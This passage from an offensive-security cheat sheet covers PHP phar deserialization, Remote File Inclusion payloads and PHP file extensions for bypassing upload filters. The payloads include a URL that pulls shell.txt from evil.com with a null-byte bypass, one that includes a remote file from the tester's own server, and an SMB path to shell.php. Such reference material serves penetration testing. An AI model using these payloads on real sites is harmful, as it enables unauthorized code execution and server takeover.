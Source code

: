 NOTE: The unserialize is triggered for the phar:// wrapper in any file operation, `file_exists` and many more.

#### Remote File Inclusion

##### Set your local web server
```
python -m http.server <port>
```
##### Basic

Most of the filter bypasses from LFI section can be reused for RFI.
```
http://example.com/index.php?page=http://$your_ip:$port/your_file.txt
```

NOTE: You will see some request in your web server.
###### Null byte
```
http://example.com/index.php?page=http://evil.com/shell.txt%00
```
NOTE: PHP version < 5.5 are vulnerable to this bypass
###### Bypass allow_url_include

When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows box using the `smb` protocol.

1. Create a share open to everyone
2. Write a PHP code inside a file : `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`
#### File Upload

Credits:
[PayloadAllTheThings - File Upload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#defaults-extensions)
##### Defaults extensions

PHP Server
```
.php
.php3
.php4
.php5
.php7
```

Less known PHP extensions
```
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
 ```
